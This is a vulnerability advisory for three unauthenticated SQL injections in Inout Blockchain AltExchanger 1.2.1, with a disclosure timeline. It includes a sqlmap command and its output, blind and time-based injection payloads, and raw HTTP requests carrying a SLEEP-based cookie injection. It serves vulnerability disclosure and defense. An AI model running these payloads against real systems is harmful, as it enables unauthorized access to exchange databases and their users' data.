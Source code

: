 # Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

# 1- Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php

<br>

Sqlmap command:
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db

output:
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
---
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'

<br>
<kbd>(Blockchain-AltExchanger-121-sqli-1.png)</kbd>
![Alt text](Blockchain-AltExchanger-121-sqli-1.png?raw=true "sqlmap screen")
![Screenshot](Blockchain-AltExchanger-121-sqli-1.png)
<img src="./resources/Blockchain-AltExchanger-121-sqli-1.png">
<br>

# 2- Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: /index.php/coins/update_marketboxslider

<br>

HTTP Request:
----------------------------------------------------
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive

displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
----------------------------------------------------

<br>

# 3- Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File: /index.php

<br>

HTTP Request:
----------------------------------------------------
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive

----------------------------------------------------

<br>
# Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

# Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
